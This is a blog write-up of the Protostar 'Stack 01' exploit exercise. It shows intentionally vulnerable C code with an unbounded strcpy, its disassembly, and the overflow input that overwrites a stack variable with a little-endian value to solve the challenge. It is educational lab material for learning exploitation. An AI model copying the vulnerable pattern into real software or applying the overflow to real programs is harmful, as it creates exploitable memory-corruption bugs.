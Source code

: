 ```yaml
---
layout:     post
title:      "Protostar - Stack 01"
description: "In this challenge we're going to use the previous technique of modyfing variables on the stack in order to overwrite the value into the desired one."
date:       2018-04-27 0:00:00
author:     "W3ndige"
permalink: /:title/
category: "Exploit Exercises"
---
```


Let's start by looking at the source code of the challenge.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
{% endhighlight %}

Firstly, we have a `volatile int modified` variable statement. This statement tells the compiler that it should not optimize it by any means. This means that this variable is open to modify somewhere else during the execution and the compiler is forced to reload the variable every time. Read more at [Wikipedia](https://en.wikipedia.org/wiki/Volatile_(computer_programming)).

After that we're going to copy the contents of `argv[1]` into buffer. Notice how we're using `strcpy()` function that won't care about the size of the destination buffer, we can simply copy 1000 bytes into 64 bytes buffer resulting in buffer overflow. That's why we should be using `strncpy()` function that takes another argument - number of bytes to copy.

In last section of code we have `if(modified == 0x61626364)`. As the `modified` variable is equal to `0` we have to modify it with a previously detected buffer overflow vulnerability. But firstly, let's take a look at the disassembly of this program.

{% highlight assembly %}
0x08048464 <main+0>:	push   ebp
0x08048465 <main+1>:	mov    ebp,esp
0x08048467 <main+3>:	and    esp,0xfffffff0
->0x0804846a <main+6>:	sub    esp,0x60
0x0804846d <main+9>:	cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:	jne    0x8048487 <main+35>
0x08048473 <main+15>:	mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:	mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:	call   0x8048388 <errx@plt>
->0x08048487 <main+35>:	mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:	add    eax,0x4
0x08048495 <main+49>:	mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:	mov    DWORD PTR [esp+0x4],eax
->0x0804849b <main+55>:	lea    eax,[esp+0x1c]
0x0804849f <main+59>:	mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:	call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:	mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:	cmp    eax,0x61626364
0x080484b0 <main+76>:	jne    0x80484c0 <main+92>
0x080484b2 <main+78>:	mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:	call   0x8048398 <puts@plt>
0x080484be <main+90>:	jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:	mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:	mov    eax,0x80485f3
0x080484c9 <main+101>:	mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:	mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:	call   0x8048378 <printf@plt>
0x080484d5 <main+113>:	leave  
0x080484d6 <main+114>:	ret    
{% endhighlight %}

First thing what we can see is that in this line `DWORD PTR [esp+0x5c],0x0`, value `0x0` is moved into stack with offset 0x5c. That's the `modified` variable. At the next arrow we can see `lea    eax,[esp+0x1c]`, so the variable passed to the parameter passed to the function `strcpy()` is located at `esp` plus offset `0x1c`. That's our buffer. We can also check that by substracting both addressed. The difference should be the size of buffer, so 64 bytes.

Let's take a look at this simple stack representation, showing the local variables that are put onto the stack.

{% highlight python %}
>>> 0x5c - 0x1c
64
{% endhighlight %}

![Awesome Buffer Sketch](/img/protostar/awesome-buffer-sketch.jpg){:class="img-responsive center-block"}

If we supply the program with number of elements smaller than 64, then it will run without smallest problem.

{% highlight bash %}
$ ./stack1 aaaa
Try again, you got 0x00000000
{% endhighlight %}

![Awesome Buffer Sketch](/img/protostar/awesome-buffer-not-filled.jpg){:class="img-responsive center-block"}

But what will happen if we overflow the buffer with 2 'A' letters bigger than the allocated size, so in this case 64 'A' letters.

{% highlight python %}
>>> 'A' * 66
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
{% endhighlight %}

{% highlight bash %}
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again, you got 0x00004141
{% endhighlight %}

As you can see, our `modified` variable gets overwritten as it's the next variable on the stack.

![Awesome Buffer Sketch](/img/protostar/awesome-buffer-overflowed.jpg){:class="img-responsive center-block"}

Now we have to make sure that this check `modified == 0x61626364` is correct. Firstly let's convert them to characters.

{% highlight python %}
>>> chr(0x61) + chr(0x62) + chr(0x63) + chr(0x64)
'abcd'
{% endhighlight %}

But we have to remeber that values in memory are stored in little endian. Read more [here](https://en.wikipedia.org/wiki/Endianness). Basically we have to revert the values into `dcba`.

{% highlight bash %}
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
{% endhighlight %}
